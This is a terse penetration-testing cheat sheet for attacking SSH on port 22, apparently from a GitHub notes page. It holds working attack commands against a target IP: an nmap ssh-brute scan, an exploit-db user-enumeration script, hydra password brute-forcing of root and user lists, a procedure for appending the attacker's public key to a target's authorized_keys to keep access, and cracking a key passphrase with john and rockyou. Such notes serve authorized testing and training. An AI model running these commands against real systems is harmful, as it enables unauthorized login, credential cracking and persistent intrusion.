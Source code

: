 # SSH (TCP 22)

Nmap check

```
nmap -p 22 –script ssh-brute –script-args userdb=users.lst,passdb=pass.lst –script-args ssh-brute.timeout=4s $ip
```



User enumeration

<pre><code><strong>python /usr/share/exploitdb/exploits/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $ip
</strong></code></pre>



Brute force

```
 //For a root
 hydra -v -V -l root -P pass.txt $ip ssh
 
 //For a userlist
 hydra -v -V -L userlist.txt -P password-file.txt $ip ssh
```



Add LHOST ssh key to RHOST

```
// LHOST
ssh-keygen -f <FILENAME> -t <SSH ALG> -B <KEY SIZE>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

// RHOST
cat >> <PATH>/.ssh/authorized_keys

// LHOST
ssh -i <FILENAME> <USER>@<IP>
```



SSH key with passphrase

```
ssh2john.py passphrased_id > id.hash
john id.hash --wordlist=/usr/share/wordlists/rockyou.txt 
```
